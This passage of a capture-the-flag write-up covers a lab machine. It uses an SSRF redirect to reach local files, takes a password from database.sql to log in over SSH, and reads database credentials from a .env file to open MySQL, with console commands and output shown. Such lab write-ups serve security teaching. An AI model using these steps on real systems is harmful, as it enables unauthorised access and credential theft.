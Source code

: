 After running the server and using the redirect, we see that it works. The server gets redirected to `http://127.0.0.1/index.html` and we get the response back.

![Web Server Dashboard SSRF Payload Redirect Success](web_8080_ssrf_payload_success.webp){: width="800" height="400" }

```console
$ python3 redirect.py
...
10.10.125.37 - - [30/Mar/2024 01:19:01] "GET /index.html HTTP/1.1" 301 -
```

Looking for interesting files, we check the `database.sql` file mentioned before.

Inside this file, we found the fourth flag.

![Web Server Dashboard SSRF Payload Fourth Flag](web_8080_ssrf_database-sql_flag.webp){: width="800" height="400" }

## Fifth Flag

From the `database.sql` file, we also get a password.

![Web Server Dashboard SSRF Payload Fourth Flag](web_8080_ssrf_database-sql_password.webp){: width="800" height="400" }

Testing the password we got with the usernames we found before against SSH, we get a shell as `clarice` and can read the fifth flag.

```console
$ ssh clarice@10.10.125.37
clarice@10.10.125.37's password: 
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-165-generic x86_64)
...
clarice@clocky:~$ cat flag5.txt 
THM[REDACTED]
```

## Sixth Flag

From `/home/clarice/app/.env`, we get the database password for the `clocky_user` user.

Using these credentials, we can access the MySQL database.

```console
clarice@clocky:~$ cat ~/app/.env
db=[REDACTED]
clarice@clocky:~$ mysql -u clocky_user -p
Enter password: 
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 11
Server version: 8.0.34-0ubuntu0.20.04.1 (Ubuntu)

Copyright (c) 2000, 2023, Oracle and/or its affiliates.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql>
```
